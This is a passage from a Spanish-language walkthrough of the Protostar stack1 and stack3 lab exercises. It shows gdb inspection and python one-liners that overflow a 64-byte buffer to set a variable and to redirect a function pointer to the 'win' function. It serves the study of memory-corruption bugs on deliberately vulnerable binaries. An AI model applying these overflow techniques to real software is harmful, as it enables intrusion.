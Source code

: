 ```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack1
(gdb) set disassembly-flavor intel
(gdb) disas main
0x080484ab <main+71>:	cmp    eax,0x61626364 -> Lo compara con eax
```
El buffer es del mismo tamaño que antes...

```console
[user@protostar]-[/opt/protostar/bin]:$ ./stack1 $(python -c "print('A'*64)")
Try again, you got 0x00000000
[user@protostar]-[/opt/protostar/bin]:$ ./stack1 $(python -c "print('A'*68)")
Try again, you got 0x41414141
[user@protostar]-[/opt/protostar/bin]:$ ./stack1 $(python -c "print('A'*64 + '\x64\x63\x62\x61')")
you have correctly got the variable to the right value
```

---------------------------------------------------------------------------
# Sobreescribir un puntero de instruccion 
> [stack3](https://exploit.education/protostar/stack-one/)

Aquí tenemos que modificar el registro "eip" el cual contiene la dirección de la siguiente insutrucción que el programa va a ejecutar. 
Hay que mandarlo en concreto a la funcion "win"

```console
[user@protostar]-[/opt/protostar/bin]:$ objdump -d ./stack3 | grep "win"
08048424 <win>
```
En el codigo de gdb *disas main* no hay ninguna llamada a esta función de por si. El eip apunta a la insutrccion de nuestros breakpoints 
ya que esta todavia no se ha ejecutado.

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack3
(gdb) b *0x08048477 -> 0x08048477 <main+63>:	leave
(gdb) r
AAAA
Breakpoint alcanzado
(gdb) i r
eip            0x8048477	0x8048477 <main+63>
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64)" | ./stack3
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64 + 'B'*4)" | ./stack3
calling function pointer, jumping to 0x42424242
Segmentation fault
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64 + 'B'*4)"  > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack3
(gdb) b *0x08048477 
(gdb) run < /tmp/pattern
(gdb) x/40wx $esp
0xbffff63c:	0x08048477	0x08048560	0x41414141	0xb7fff8f8
...
0xbffff68c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff69c:	0x42424242	0x08048400	0x00000000	0xbffff728
(gdb) x/x $eip -> El eip esta justo despues del buffer en este caso, en "0xbffff69c"
0x41414141:	Cannot access memory at address 0x41414141
```
En vez de meterle "AAAA" al eip hay que meterle la direccion de una función real, en concreto la de "win" que es: 08048424 o "\x24\x84\x04\x08"
